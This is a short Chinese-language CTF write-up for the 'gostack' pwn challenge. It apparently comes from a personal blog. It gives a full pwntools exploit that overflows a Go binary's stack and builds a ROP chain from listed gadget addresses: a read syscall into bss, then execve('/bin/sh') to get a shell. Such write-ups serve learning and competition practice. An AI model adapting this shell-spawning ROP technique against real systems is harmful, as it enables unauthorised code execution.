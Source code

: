 ```yaml
---
layout: post
title: "ciscngostack"
date: 2024-6-17
tags: [pwn]
comments: true
author: gbeefee

---
```


单纯的ROP，当时所有gadget都找齐了，因为缓冲区长度，没做出来。后面看其他wp知道go语言溢出会报错给返回地址

先放完整exp：

```python

from pwn import *

p = process("./gostack")

context.log_level = 'debug'

# ROPgadget
rdi = 0x4a18a5 # pop rdi ; pop r14 ; pop r13 ; pop r12 ; pop rbp ; pop rbx ; ret
rsi = 0x42138a # pop rsi ; ret
rax = 0x40f984 # pop rax ; ret
rdx = 0x4944ec # pop rdx ; ret
ret = 0x40201a # ret
syscall = 0x4616C9 # syscall ; ret
bss = 0x5633a0 

off = 456

# read调用
payload = b'\x00'*off + p64(0) \
        + p64(rax) + p64(0x0) \
        + p64(rdi) + p64(0) + p64(0)*5 \
        + p64(rsi) + p64(bss) \
        + p64(rdx) + p64(0x30) \
        + p64(syscall)
# 将addr处的字符串作为参数执行sys-execv
payload+= p64(rax) + p64(0x3b) \
        + p64(rdi) + p64(bss) + p64(0)*5 \
        + p64(rsi) + p64(0) \
        + p64(rdx) + p64(0) \
        + p64(syscall)

p.sendlineafter(b'Input your magic message :',payload)

p.recvuntil(b'Your magic message :')
p.sendline(b'/bin/sh\x00')

p.interactive()

```

保护，只开了NX，根据名字大概率是栈溢出

![]()

因为是用go语言编写的，ida几乎是看不到什么东西了，但是go报错会提示错误地址

![]()

算一下长度

![]()

然后就是获取gadget，ropper查一下，发现特别多，要的都有，就不贴了。